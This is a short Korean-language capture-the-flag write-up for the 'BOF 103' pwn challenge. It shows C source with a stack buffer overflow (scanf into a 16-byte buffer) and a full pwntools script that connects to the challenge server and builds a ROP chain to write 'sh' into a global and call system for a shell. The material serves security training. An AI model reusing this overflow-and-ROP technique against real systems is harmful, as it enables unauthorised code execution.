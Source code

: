 ## PWN - BOF 103

---

```python
unsigned long long key;

void useme(unsigned long long a, 
        unsigned long long b)
{
    key = a * b;
}

void bofme() {
    char name[16];
    puts("What's your name?");
    printf("Name > ");
    scanf("%s", name);
    printf("Bye, %s.\n", name);
}
```

ROP exploit 문제다.

전역변수 key에 `sh` 를 삽입하고 ROP로 `system(”sh”)`를 실행하면 된다.

단, ROP로 `useme()` 를 호출하는 과정에서 인자 `a, b`가 long 타입이므로 형 변환을 고려해서 인자를 호출해야한다.

### ○ exploit

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

#context.log_level = 'debug' 
context.bits = 64

p = remote("bof103.sstf.site", 1337)   
#p = process("./bof103")

pause()
pop_rdi = 0x400723
pop_rsi = 0x4006b8
key = 0x601058
syetem = 0x4004e0
ret = 0x4004b1
useme = 0x400626

# dummy + rdi + 1 + rsi + "sh" + useme() + rdi + key + system()
payload = b'a'*(0x10+0x8) + p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(26739) + p64(useme) + p64(pop_rdi) + p64(key) + p64(0x4004e0)

p.sendlineafter(b'\n', payload)

p.interactive()
```
